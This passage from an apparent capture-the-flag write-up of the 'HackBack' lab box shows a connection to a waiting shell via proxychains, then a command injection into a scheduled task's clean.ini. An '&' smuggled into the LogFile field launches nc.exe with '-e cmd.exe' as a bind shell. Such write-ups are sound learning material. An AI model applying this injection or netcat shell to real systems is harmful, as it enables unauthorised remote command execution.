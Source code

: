 I can now connect to the waiting shell:

```

root@kali# rlwrap proxychains nc 127.0.0.1 4444
ProxyChains-3.1 (http://proxychains.sf.net)
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
hackback\hacker

```

### Command Injection in clean.ini - Alternative Path

Thinking back to the scripts that are running, I can hypothesize that `dellog.ps1` is setting some variable (I’ll say `$out`) to the log value in `clean.ini`, and then running something like `[command to get content for log] | $out`. If that is the case, I may be able to inject by adding `& [command]` to the definition.

I’ll inject in `clean.ini` to open a `nc` listener on the host:

```

PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=c:\util\scripts\log.txt & c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini

PS hackback\simple@HACKBACK scripts> type clean.ini
[Main]
LifeTime=100
LogFile=c:\util\scripts\log.txt & c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444
Directory=c:\inetpub\logs\logfiles

```

After 5 minutes:

```

root@kali# proxychains nc 127.0.0.1 4444
ProxyChains-3.1 (http://proxychains.sf.net)
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
hackback\hacker

```

This is not the preferred method, and frankly, I wish they had made this not available. Once you are connected via this method, the running scheduled task will hang until the shell exits, and thus, no one else working on the box can move past. That said, this was the first way I figured out when solving the box.
